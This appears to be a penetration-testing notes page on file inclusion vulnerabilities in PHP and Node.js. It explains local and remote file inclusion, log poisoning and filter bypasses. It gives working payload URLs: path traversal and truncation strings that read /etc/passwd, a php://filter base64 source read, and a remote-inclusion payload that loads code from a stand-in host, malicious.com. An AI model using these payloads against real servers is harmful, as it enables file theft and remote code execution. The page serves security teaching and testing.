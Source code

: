 # File Inclusion

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion" %}

File Inclusion allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. Most commonly found in **PHP** applications.&#x20;

For example, think of file inclusion when you see:

* page.php?file=some-file-here
* page.php?language=eng

## PHP Local File Inclusion (LFI)

LFI happens when an attacker can include files on the vulnerable server (as opposed to being able to include files from remote servers). [Path Traversal](path-traversal.md) techniques can often be useful when exploiting local file inclusion vulnerabilities.

For example, let's say you have the page `page.php?language=en` and that page includes the `page.en.php` file. If `language=fr`, then it would include `page.fr.php`.

In that case, you can include the `malicious.php` file in the same directory with `page.php?language=en/../malicious`. If you had for example managed to upload a `malicious.php` file using [unrestricted file upload](page-3.md), then that will result in an RCE vulnerability.

### Log Poisoning

If you are unable to upload PHP files to the website, you might be able to poison log files with PHP code, and then include those logs.

### Data Exfiltration

LFI can be used to read files and get information from the vulnerable system.

#### Reading Files in Base64 Using php://

If the include statement doesn't include a prefix, and only includes your input, then you can use the `php://` filter to convert files to base64 and therefore read them without issues.

[http://127.0.0.1/fileinclude.php?lang=php://filter/convert.base64-encode/resource=hello.php\
](http://127.0.0.1/fileinclude.php?lang=php://filter/convert.base64-encode/resource=hello.php)

#### Reading /proc

You can try to glean information by reading `/proc`. For example:

* `/proc/self/fd` files
* `/proc/sched_debug`

### Bypass Tricks

For tricks to bypass file extensions and filters, you can take a look at the [payloadsallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-data) repository, but note that practically all the methods there have certain limitations and caveats that aren't mentioned.&#x20;

#### **NULL Byte Trick**

Putting a null-byte in between a string _might_ terminate the string in PHP (NULL is the string terminator in C). For example, `include("shell.php\0.img")` will try to include `shell.php`.&#x20;

In URL encoding, the NULL byte is `%00`.&#x20;

**WARNING:** Doesn't work since PHP 5.3.4 (though `preg_` functions should still be vulnerable). If you try to do it after PHP 5.3.4, then it simply won't open anything with a null byte in it. Error message:&#x20;

```
Failed opening 'http://www.example.com' for inclusion, when the url is ?lang=http://www.example.com%00.whatever
```

#### **Truncation Trick**

On most PHP installations a filename longer than 4096 bytes will be cut off so any excess chars will be thrown away.

That truncation, combined with the fact that `/etc/passwd` can **sometimes** be the same as `/etc/passwd/`in PHP, means that you might be able to throw away excess characters (such as a file extension you don't want)

```
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```

**WARNING:** There were multiple issues with this when testing locally on Apache2:

1. Including `/etc/passwd/` didn't work, even when `/etc/passwd` did.
2. To try to work around issue #1, I tried to put the `/etc/passwd.ext` at the end. However, I was not able to get it to work with the `.ext` at the end (it worked without it). Just to make sure, I tried to brute force cutoff points up to 99999 character (unsuccessfully).

## PHP Remote File Inclusion

Is when you can include a remote file, for example a file you're hosting. Example payload:

```
page.php?include=http://malicious.com/malicious.php?
```

Tip: The `?` at the end is useful, since if the application adds a suffix to the request, then that will simply be interpreted as a GET parameter, and your malicious file will be successfully included regardless.

## Node.js LFI

If a `require()` is at the top of a file, then it’s loaded into memory at the start of the application’s life. However, if it’s in the middle of a function, then it’s loaded every time that function is run.&#x20;

So if:&#x20;

1. You have arbitrary file upload and you can upload a javascript file
2. You control which file is loaded&#x20;

Then you can cause the application to load your file and get RCE. Admittedly, this is an **extremely unusual circumstance**.

